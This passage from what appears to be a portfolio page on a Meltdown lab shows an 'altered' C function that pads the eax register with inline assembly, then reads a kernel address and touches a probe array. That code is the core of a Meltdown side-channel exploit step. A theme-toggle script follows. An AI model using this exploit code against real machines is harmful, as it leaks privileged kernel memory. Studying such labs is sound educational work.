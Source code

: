 Altered code (lines 82-88):

void meltdown_asm(unsigned long kernel_data_addr, int idx)  

{  

   char kernel_data = 0;  

   // Give eax register something to do  
   asm volatile(  

       ".rept 400;"          
       "add $0x141, %%eax;"  
       ".endr;"   
       :  
       :  
       : "eax"  

   );   

   
   // The following statement will cause an exception  
   kernel_data = *(char*)kernel_data_addr;    
   array[idx*4096 + DELTA] += 1;      

}

[Back to Portfolio](./)

<script>
  // Function to toggle theme and update button icon
  function toggleTheme() {
    const body = document.body;
    const button = document.getElementById("toggleTheme");

    if (body.classList.contains("dark-mode")) {
      body.classList.remove("dark-mode");
      localStorage.setItem("theme", "light");
      button.textContent = "☀️"; // Show sun for day mode
    } else {
      body.classList.add("dark-mode");
      localStorage.setItem("theme", "dark");
      button.textContent = "🌙"; // Show moon for night mode
    }
  }

  // Set default theme on page load and update button icon
  document.addEventListener("DOMContentLoaded", () => {
    const body = document.body;
    const button = document.getElementById("toggleTheme");
    const savedTheme = localStorage.getItem("theme");

    if (savedTheme === "dark") {
      body.classList.add("dark-mode");
      button.textContent = "🌙"; // Show moon for night mode
    } else {
      body.classList.remove("dark-mode");
      button.textContent = "☀️"; // Show sun for day mode
    }
  });
</script>
